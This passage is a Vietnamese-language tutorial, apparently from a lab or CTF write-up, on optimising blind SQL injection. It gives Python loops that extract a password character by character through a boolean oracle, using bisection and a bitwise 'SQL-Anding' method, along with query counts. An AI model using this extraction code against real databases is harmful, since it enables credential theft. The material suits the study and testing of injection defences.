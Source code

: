 #### **Triển khai bằng Python**
```python
# Tìm mật khẩu mục tiêu bằng thuật toán Bisection
print("[*] Password = ", end='')

for i in range(1, length + 1):  # Duyệt qua từng ký tự trong mật khẩu
    low = 32  # ASCII ký tự in được
    high = 126

    while low <= high:
        mid = (low + high) // 2
        # Kiểm tra ký tự mục tiêu nằm trong phạm vi nào
        if oracle(f"ASCII(SUBSTRING(password,{i},1)) BETWEEN {low} AND {mid}"):
            high = mid - 1
        else:
            low = mid + 1

    print(chr(low), end='')  # In ký tự đã tìm được
    sys.stdout.flush()

print()
```

#### **Hiệu quả**
- Tổng số truy vấn: **256** (giảm từ 4128).
- Thời gian thực thi: **61.556 giây**.

---

### **2. Tối ưu với thuật toán "SQL-Anding"**

#### **Ý tưởng**
- Tách ký tự mục tiêu thành các bit nhị phân (0–7 bit) và kiểm tra từng bit.
- Sử dụng phép toán **bitwise AND** để xác định giá trị từng bit.

#### **Ví dụ hoạt động**
Tìm ký tự **`9`** (ASCII = 57, nhị phân = `0111001`):
1. Kiểm tra bit thứ 1: **`ASCII & 1 > 0`** → Kết quả **True**, bit = 1.
2. Kiểm tra bit thứ 2: **`ASCII & 2 > 0`** → Kết quả **False**, bit = 0.
3. Tiếp tục kiểm tra đến bit thứ 7.

#### **Triển khai bằng Python**
```python
# Tìm mật khẩu mục tiêu bằng thuật toán SQL-Anding
print("[*] Password = ", end='')

for i in range(1, length + 1):  # Duyệt qua từng ký tự
    c = 0
    for p in range(7):  # Kiểm tra từng bit
        if oracle(f"ASCII(SUBSTRING(password,{i},1)) & {2**p} > 0"):
            c |= 2**p  # Ghi nhận giá trị bit vào ký tự

    print(chr(c), end='')  # In ký tự đã tìm được
    sys.stdout.flush()

print()
```
